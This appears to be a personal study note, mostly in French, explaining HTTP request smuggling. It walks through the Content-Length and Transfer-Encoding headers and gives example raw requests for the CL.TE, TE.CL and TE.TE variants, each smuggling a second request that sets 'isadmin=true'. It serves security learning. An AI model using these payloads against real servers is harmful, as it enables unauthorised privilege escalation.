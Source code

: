 

# HTTP Request Structure


1. Request Line : METHOD PATH HTTPversion
2. Request Headers
3. Message Body

![[request_structure.png]]


--- 
## Content-Length Header 

> Informe sur la taille de la requete/reponse en bytes

---
## Transfer-Encoding Header

> Indique la forme du body

- chunked 
- compress
- deflate
- gzip

---
## CL.TE - Content-Length / Transfer-Encoding


> Créer une requete pour que le front et le back interprètent différemment la requete

Exemple : 
```shell-session
POST /search HTTP/1.1
Host: example.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
```

> Le front-end voit Content-Length : 130 il va donc prendre la requête jusqu'au "isadmin=true"
> Le Back-end lui avec le Transfer-Encoding: chunked il s'arretera au 0 

> Possibilité d'avoir des accès non-autorisés pour un attaquant.

--- 
### Incorrect Content-Length 

> Si la taille du Content-Length est trop petite alors le serveur interpretra uniquement la taille du body du CL
> 

---

## TE.CL  - Transfer-Encoding / Content-Length

> C'est l'opposé de l'autre technique

```shell-session
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

78
POST /update HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

isadmin=true
0
```

> Ici le front-end grace au T.E:chunked voit la deuxieme requetes comme un body

--- 
## TE.TE - Transfer-Encoding / Transfer-Encoding

```shell-session
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
```

> Le front-end va prendre toute la requête car T.E : chunked
> Le back va interpréter différemment le chunked1 via le C.L : 4


